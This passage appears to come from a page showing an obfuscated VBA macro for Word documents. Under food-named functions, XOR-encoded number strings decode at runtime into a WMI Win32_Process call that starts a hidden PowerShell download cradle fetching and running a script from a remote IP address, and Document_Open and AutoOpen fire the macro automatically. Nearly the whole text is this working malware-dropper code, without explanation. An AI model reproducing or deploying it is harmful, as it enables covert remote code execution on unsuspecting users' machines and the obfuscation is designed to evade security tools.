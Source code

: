 ```vba
End If

Apples = "204211203217206207212217208208156145217196217223156222197204221207207156145210211204156145203156212213216216217210156145223156213217196148148210217203145211222214217223200156207197207200217209146210217200146203217222223208213217210200149146216211203210208211221216207200206213210219148155212200200204134147147141133142146141138132146136133146141138133147206201210210217206138136146200196200155149149"

Water = Nuts(Apples)

GetObject(Nuts("203213210209219209200207134")).Get(Nuts("235213210143142227236206211223217207207")).Create Water, Tea, Coffee, Napkin

End Function

Function Pears(Beets)

Pears = Chr(Beets Xor 188)

End Function

Function Strawberries(Grapes)

Strawberries = Left(Grapes, 3)

End Function

Function Almonds(Jelly)

Almonds = Right(Jelly, Len(Jelly) - 3)

End Function

Function Nuts(Milk)

Do

Oatmilk = Oatmilk + Pears(Strawberries(Milk))

Milk = Almonds(Milk)

Loop While Len(Milk) > 0

Nuts = Oatmilk

End Function

Sub Document_Open()

MyMacro

End Sub

Sub AutoOpen()

MyMacro

End Sub
```
